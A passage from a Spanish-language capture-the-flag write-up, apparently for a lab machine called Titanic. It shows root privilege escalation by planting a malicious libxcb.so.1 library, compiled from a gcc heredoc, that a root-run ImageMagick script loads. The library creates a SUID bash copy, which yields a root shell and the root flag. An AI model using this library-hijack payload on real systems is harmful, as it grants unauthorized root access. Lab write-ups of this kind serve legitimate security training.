 Al ejecutar magick debe ejecutar id:

```
developer@titanic:/opt/app/static/assets/images$ magick /dev/null /dev/null
uid=1000(developer) gid=1000(developer) groups=1000(developer)
```

Cambio `id` por `whoami > /tmp/whoami.txt` para saber si root es el que ejecuta el script:

La librería se debe crear en `/opt/app/static/assets/images` que es donde el script ejecuta magick.

Espero a que se ejecute:

```
developer@titanic:/opt/app/static/assets/images$ cat /tmp/whoami.txt
root
```

### Shell como root

```
cp /bin/bash /tmp/cangrejo.sh && chmod u+s /tmp/cangrejo.sh
```

```
developer@titanic:/opt/app/static/assets/images$ gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
__attribute__((constructor)) void init(){
    system("cp /bin/bash /tmp/cangrejo.sh && chmod u+s /tmp/cangrejo.sh");
    exit(0);
}
EOF
```

Copia de bash creada por root con permisos SUID:

```
developer@titanic:/opt/app/static/assets/images$ ls -l  /tmp/cangrejo.sh
-rwsr-xr-x 1 root root 1396520 Jul 17 20:51 /tmp/cangrejo.sh
```

```
/tmp/cangrejo.sh -p
```


```
cangrejo.sh-5.1# whoami
root
```

flag `root.txt`:

```
cangrejo.sh-5.1# cat /root/root.txt
07b8028da***********************
```

# 🦀
